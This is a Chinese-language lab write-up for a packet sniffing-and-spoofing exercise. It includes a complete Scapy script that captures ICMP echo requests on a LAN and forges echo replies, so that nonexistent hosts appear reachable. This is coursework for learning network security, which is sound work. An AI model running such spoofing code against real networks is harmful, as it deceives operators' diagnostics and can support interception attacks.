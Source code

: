 ### Task 1.4: Sniffing and-then Spoofing

在此任务中，您将结合探查和欺骗技术来实现以下 sniff-and then-spoof 程序。

您需要在同一个 LAN 上使用两台计算机：VM 和用户容器。

从用户容器中，ping IP X。这将生成 ICMP 回显请求数据包。如果 X 处于活动状态，则 ping 程序将收到 echo 回复，并打印出响应。

您的嗅探然后欺骗程序在 VM 上运行，VM 通过数据包嗅探来监视 LAN。每当它看到 ICMP 回声请求时，无论目标 IP 地址是什么，您的程序都应该立即使用数据包欺骗技术发出回声回复。

因此，无论机器 X 是否存活，ping 程序总是会收到回复，表明 X 是存活的。

您需要使用 Scapy 来完成此任务。在您的报告中，您需要提供证据来证明您的技术有效。在实验中，您应该从用户容器 ping 以下三个 IP 地址。报告您的观察结果并解释结果：

```bash
 ping 1.2.3.4         # a non-existing host on the Internet
 ping 10.9.0.99 	  # a non-existing host on the LAN
 ping 8.8.8.8         # an existing host on the Internet
```

按照实验要求我们编写 `sniff_and_spoof.py`：

```python
#!/usr/bin/env python3
from scapy.all import *
import time

def spoof_icmp_reply(packet):
    # 检查是否是 ICMP Echo 请求
    if packet.haslayer(ICMP) and packet[ICMP].type == 8:  # ICMP type 8 是 Echo 请求
        # 获取源 IP 和目的 IP
        src_ip = packet[IP].src
        dst_ip = packet[IP].dst

        # 构造 ICMP Echo 回复包
        reply_packet = IP(src=dst_ip, dst=src_ip) / ICMP(type=0, id=packet[ICMP].id, seq=packet[ICMP].seq) / packet[Raw].load
        
        # 发送伪造的 Echo 回复包
        send(reply_packet, verbose=0)
        print(f"Sent spoofed ICMP Echo reply to {src_ip} from {dst_ip}")

def sniff_and_spoof():
    # 开始嗅探 ICMP 数据包并调用 spoof_icmp_reply 进行欺骗
    sniff(filter="icmp", prn=spoof_icmp_reply, store=0)

if __name__ == "__main__":
    print("Starting ICMP sniffer and spoofer...")
    sniff_and_spoof()

```

在 VM上运行 `sniff_and_spoof.py`：

![1-4](../image/1-4.png)
